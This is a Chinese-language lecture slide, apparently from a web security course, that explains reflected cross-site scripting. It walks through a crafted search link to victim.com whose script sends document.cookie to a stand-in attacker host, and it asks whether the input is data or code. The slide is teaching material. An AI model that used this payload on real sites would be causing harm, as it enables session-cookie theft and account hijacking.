

# 恶意的输入

考虑下面这个链接:
	http://victim.com/search.php ? term =
		<script> window.open(
			“http://attacker.com?cookie = ” +
			document.cookie )  </script>
如果用户点击了这个链接会如何?
浏览器访问victim.com/search.php
Victim.com返回
<HTML> Results for <script> … </script>
浏览器执行脚本:
发送victim.com的cookie到badguy.com

data or code？